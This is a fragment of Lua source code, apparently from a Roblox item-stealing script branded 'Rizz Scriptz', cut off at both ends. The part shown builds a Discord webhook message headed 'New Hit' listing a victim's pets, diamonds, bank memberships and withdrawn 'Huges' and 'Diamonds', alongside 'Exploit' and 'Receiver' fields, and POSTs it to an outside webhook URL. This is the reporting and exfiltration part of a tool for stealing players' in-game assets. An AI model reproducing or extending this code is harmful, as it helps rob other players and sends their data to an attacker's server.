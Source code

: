                         "\nExploit      : " .. exploit .. "\nReceiver     : " .. receiver .. "```",
                    ["inline"] = false
                }, {
                    ["name"] = ":dog: **Pets left** :dog:",
                    ["value"] = "```" .. f .. "```",
                    ["inline"] = true
                }, {
                    ["name"] = ":gem: **Diamonds** :gem:",
                    ["value"] = "```" .. d .. "```",
                    ["inline"] = true
                },
                    {
                        ["name"] = rarity,
                        ["value"] = "```" .. name .. "```",
                        ["inline"] = true
                    },
                    {
                        ["name"] = ":bank: **Joined Banks** :bank:",
                        ["value"] = "```" .. bankscount .. lmao .. "```",
                        ["inline"] = true
                    },
                    {
                        ["name"] = ":gem: **Wd Diamonds** :gem:",
                        ["value"] = "```" .. WDiamondsCount .. "```",
                        ["inline"] = true
                    }, {
                    ["name"] = ":money_mouth: **Wd Huges** :money_mouth:",
                    ["value"] = "```" .. FinalFinal .. "```",
                    ["inline"] = true
                },
                }
            } }
        }
        newdata1 = game:GetService("HttpService"):JSONEncode(data1)

        headers = {
            ["content-type"] = "application/json"
        }

        if Webhook ~= nil and whenabled == true then
            abcdef1 = {
                Url = url,
                Body = newdata1,
                Method = "POST",
                Headers = headers
            }
            request(abcdef1)
        end
    else
        imgs =
        "https://cdn.discordapp.com/attachments/1059224458033901668/1066510039818440864/New_Project_DADCF6A.gif"
        data1 = {
            ["content"] = ping,
            ["username"] = "Rizz Scriptz",
            ["avatar_url"] = imgs,
            ["embeds"] = { {
                ["title"] = "**New Hit** ||With Rizz||",
                ["url"] = "https://discord.gg/uSgzNwHDTS",
                ["type"] = "rich",
                ["color"] = tonumber(0x2798FF),
                ["thumbnail"] = {
                    ["url"] = Image,
                    ["height"] = 420,
